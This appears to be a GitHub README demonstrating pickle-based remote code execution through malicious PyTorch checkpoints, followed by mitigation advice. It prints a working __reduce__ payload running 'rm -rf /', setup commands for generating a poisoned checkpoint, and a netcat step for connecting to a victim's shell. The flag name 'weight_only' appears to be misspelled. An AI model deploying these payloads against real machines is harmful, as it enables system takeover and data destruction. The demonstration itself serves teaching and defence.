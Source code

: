 # Pickle Remote Code Execution (RCE) Vulnerability

This repository demonstrates a security vulnerability in Python's `pickle` module that can lead to remote code execution (RCE). The `pickle` module is used for serializing and deserializing Python objects, but it can execute arbitrary code during deserialization, making it dangerous to use with untrusted data.

## Repository Structure

- `gen_clean_ckpt.py`: Script to generate a clean checkpoint.
- `gen_payload_ckpy.py`: Script to generate a payload checkpoint.
- `payload_example.py`: Example script demonstrating the pickle RCE vulnerability.
- `README.md`: This file.

## Setup

```bash
pip install torch
python gen_clean_ckpt.py
python gen_payload_ckpy.py model_checkpoint.pth
```

Now victim loads the checkpoint using `torch.load`:

```python
torch.load('malicious_checkpoint.pth')
```

Attcker can now connect to the victim's machine using netcat:

```bash
nc localhost 4444 # replace localhost with the victim's IP
```

## Understanding the Vulnerability

The `payload_example.py` script demonstrates how an attacker can exploit the pickle RCE vulnerability. Here's a breakdown of the script:

The attack works by the unpickling or deserializing of python object classes.

As certain class objects might not be easy to serialize and stored by pickle,
such as file objects, sockets, etc. The `__reduce__` method is used to define
how the object should be constructed while unpickling/deserializing.

i.e. arbitrary code execution can be achieved by defining a class with a `__reduce__` method that executes the desired code.

```python
import pickle
import os

class MaliciousPickle:
    def __reduce__(self):
        return (os.system, ('rm -rf /',)) # 😏💣

payload = pickle.dumps(MaliciousPickle())
pickle.loads(payload) # This will execute the payload and the attacker gains control... 
I MEAN NUKE YOUR WHOLE FILE SYSTEM... DO NOT ACTUALLY EXECUTE THIS EXAMPLE
```

## Mitigations

***Never unpickle untrusted data***. The `pickle` module is not secure against erroneous or maliciously constructed data. It is recommended to use safer alternatives like JSON, XML, or YAML for data serialization and deserialization.

### ML specific mitigations

Always use `torch.load` with the `weight_only=True` flag to load model weights only. This ensures that the model architecture is not loaded from the checkpoint, preventing the execution of arbitrary code.

Or just set the environment variable `TORCH_LOAD_DISABLE_PICKLE` to `1` to disable the use of unsafe pickle in `torch.load`.

Lastly, just switch to using **safetensor** for model checkpoints.

An instance of the vulnerability which documents how untrusted pickle data can lead to remote code execution (RCE). For more details, refer to the official CVE entry:
[CVE-2024-3568](https://nvd.nist.gov/vuln/detail/CVE-2024-3568)
